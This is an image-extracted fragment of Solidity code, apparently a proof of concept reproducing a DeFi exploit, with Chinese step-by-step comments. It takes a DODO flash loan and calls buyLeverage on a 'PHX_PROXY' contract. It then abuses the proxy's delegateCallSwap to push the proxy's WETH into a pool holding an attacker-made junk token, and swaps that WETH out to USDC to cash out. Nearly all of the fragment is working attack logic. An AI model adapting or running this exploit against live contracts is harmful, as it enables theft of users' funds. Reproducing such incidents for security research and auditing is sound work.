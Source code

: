 ```solidity
            address(this),
            block.timestamp
        );

        // 2. 使用闪电贷，贷款以向代理合约购买Leverage Token
        // https://dodoex.github.io/docs/docs/flashSwap
        DPP.flashLoan(0, 7990000000, address(this), new bytes(1));
    }

    function DPPFlashLoanCall(
        address,
        uint256,
        uint256,
        bytes calldata
    ) external {
        emit log_named_decimal_uint(
            "WETH.balanceOf(address(PHX_PROXY)) before buyLeverage: ",
            WETH.balanceOf(address(PHX_PROXY)),
            18
        );
        // 3, 向代理合约购买Leverage Token, make the proxy contract rich~
        USDC.approve(address(PHX_PROXY), type(uint256).max);
        PHX_PROXY.buyLeverage(7990000000, 0, block.timestamp, new bytes(0));
        uint256 swapAmount = WETH.balanceOf(address(PHX_PROXY));

        emit log_named_decimal_uint(
            "WETH.balanceOf(address(PHX_PROXY)) after buyLeverage: ",
            WETH.balanceOf(address(PHX_PROXY)),
            18
        );

        //4. 让代理合约用它的WETH来置换我们的垃圾币
        // 然后代理合约的WETH转移到我们垃圾币交易池中
        bytes memory swapData = abi.encodeWithSelector(
            0xa9678a18, //swap
            address(QuickSwapRouter),
            address(WETH),
            address(myToken),
            swapAmount
        );
        PHX_PROXY.delegateCallSwap(swapData);

        emit log_named_decimal_uint(
            "WETH.balanceOf(address(PHX_PROXY)) after exploit: ",
            WETH.balanceOf(address(PHX_PROXY)),
            18
        );

        // 5. 这里写成2步更容易理解
        // 5.1 我们用另外一堆垃圾币向我们创建的交易池（mytoken <=> WETH）进行置换，将它收到的代理合约给的WETH置换出来
        // 5.2 然后我们将得到的WETH又到其他的交易池（WETH <=> USDC）进行置换，以套现
        address[] memory path = new address[](3);
        path[0] = address(myToken);
        path[1] = address(WETH);
        path[2] = address(USDC);
        uint[] memory amounts = QuickSwapRouter.swapExactTokensForTokens(
            1000000000000000000000000,
            0,
            path,
            address(this),
            block.timestamp
        );

```